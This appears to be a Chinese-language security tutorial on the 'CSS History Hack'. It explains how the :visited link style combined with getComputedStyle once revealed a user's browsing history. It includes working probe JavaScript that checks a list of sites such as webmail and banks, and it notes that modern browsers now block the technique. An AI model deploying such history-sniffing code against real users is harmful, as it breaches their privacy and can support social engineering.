


CSS History Hack
利用XSS窃取客户隐私
CSS History Hack 介绍
运用一些JavaScript/CSS技巧，黑客能获取用户浏览器的某些历史记录，甚至是在搜索引擎输入的查询字符。该技术最初由Jeremiah Grossman提出，其原理只是利用了 CSS能定义和控制链接样式的特性。
Link Style
CSS中有四个伪类用来定义链接的样式，分别是：a:link、a:visited、a:active和 a:hover，他们分别表示未访问的、已访问的、激活的和光标悬停 在其上的链接，如下所示：
a:link {color: #FF0000}
a:visited {color: #00FF00}
a:hover {color: #FF00FF}
a:active {color: #0000FF}
效果如下图：

其中青色的是访问过的网站，红色是未访问过的网站。一般来说，用户每天都会浏览很多网页，这些网页都会被浏览器记录下来，除非用户自己刻意清除，否则历史记录降一直 保存在本地计算机中。倘若攻击者能获取用户浏览器的历史记录或搜索信息，将是一件十分危险的事，攻击者可以在此基础上进一步发起其他攻击，如社会工程学。
如何获取历史记录
黑客是怎样获取到用户的历史记录呢？这需要用到客户端JavaScript和CSS技术，两种技术结合在一起运用就可以知道某人是否访问过一个任意的URL，这种方式叫做“JavaScript/CSS history hack”。该技术主要利用了Dom中的getComputedStyle()方法来实现。
其原理就是利用CSS能定义访问过的和未访问过的超级链接的样式。由于JavaScript可以读取任何元素的CSS信息，自然能分辨浏览器应用了哪种样式和用户是否访问过该链接。
<H3>Visited</H3>
<ul id="visited"></ul>
<H3>Not Visited</H3>
<ul id="notvisited"></ul>
<script type="text/javascript">
var websites = [
"http://ha.ckers.org/blog/",
"http://login.yahoo.com/",
"http://mail.google.com/",
"http://mail.yahoo.com/",
"http://my.yahoo.com/",
"http://sla.ckers.org/forum/",
"http://slashdot.org/",
"http://www.amazon.com/",
"http://www.aol.com/",
"http://www.apple.com/",
"http://www.bankofamerica.com/",
"http://www.bankone.com/"
];
/* Loop through each URL */
for (var i = 0; i < websites.length; i++) {
/* create the new anchor tag with the appropriate URL information */
var link = document.createElement("a");
link.id = "id" + i;
link.href = websites[i];
link.innerHTML = websites[i];
/* create a custom style tag for the specific link. Set the CSS visited selector to a known value, in this case red */
document.write('<style>');
document.write('#id' + i + ":visited {color: #FF0000;}");
document.write('</style>');
/* quickly add and remove the link from the DOM with enough time to save the visible computed color. */
document.body.appendChild(link);
var color = document.defaultView.getComputedStyle(link,null).getPropertyValue("color");
document.body.removeChild(link);
/* check to see if the link has been visited if the computed color is red */
if (color == "rgb(255, 0, 0)") { // visited
/* add the link to the visited list */
var item = document.createElement('li');
item.appendChild(link);
document.getElementById('visited').appendChild(item);
} else { // not visited
/* add the link to the not visited list */
var item = document.createElement('li');
item.appendChild(link);
document.getElementById('notvisited').appendChild(item);
} // end visited color check if
} // end URL loop
</script>
运行结果如下图：

可以看到通过颜色区分了是否访问过，并且使用JavaScript进行罗列结果。Visited部分罗列的是曾经访问过的网站，Not Visited则是没有访问过的网站列表。
防范攻击
CSS History Hack的防范属于浏览器安全的范畴，目前各大主流浏览器都已经通过限制getComputedStyle这个API封住了这个漏洞。
如下图所示：

尽管CSS可以区分网站是否访问，但是JavaScript却无法获取到正常的返回值。无论是否访问过的URL，返回的color都是未访问的。